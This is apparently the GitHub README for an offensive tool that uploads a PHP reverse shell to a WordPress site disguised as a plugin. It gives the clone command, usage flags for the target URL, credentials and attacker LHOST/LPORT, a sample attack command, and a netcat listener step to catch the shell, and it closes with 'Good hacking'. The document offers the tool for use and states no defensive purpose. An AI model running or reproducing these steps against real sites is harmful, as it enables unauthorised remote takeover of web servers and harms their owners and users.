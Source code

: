 ![LOGO](https://github.com/JoaoPedroMoreira02/Pwn_Wordpress/assets/103542430/7c6e38fe-7fda-4f97-9da1-b1a619f975d2)


# Evil Wordpress Plugin (Malicious)

Malicious, remotely performs an upload of a PHP reverse shell in the form of a plugin on a WordPress site. The exploit is only successful with user credentials, so make sure you know the target username and password and check if the target user has Administrator permissions.

Install by running:

```bash
  git clone https://github.com/Jsmoreira02/Pwn_Wordpress.git
```
    
## Parameters [Running Script]

Help section (-h)

```bash
usage: Malicious.py [-h] [-t] [-u] [-p] [-L] [-P]

Wordpress Malicious plugin upload

options:
  -h, --help        show this help message and exit
  -t , --target     Target URL
  -u , --username   Wordpress Username
  -p , --password   Wordpress Password
  -L , --LHOST      Attacker IP address
  -P , --LPORT      Attacker LOCAL PORT

./app.py -t http://domain_name.com/wordpress -u User_FOX -p Pass -L 192.168.20.2 -P 4040 

```

Attacking the Target Website: 

```bash 
python3 Malicious.py -t http://<IP or domain_name> -u <Target Username> -p <Target Password> -L <LOCAL IP> -P <LOCAL PORT>

```

Executing Handler

```bash 
nc -lvp {LOCAL PORT}
```

The script will automatically give you the connection. 

***---> In case of complications or disconnection issues, you can just manually trigger the connection at the URL link given by the program <---***
 
***---> Correct Syntax: "http://IP/wordpress | Wrong syntax: http://IP/wordpress/ <---***

## 

- ***Good hacking :)***





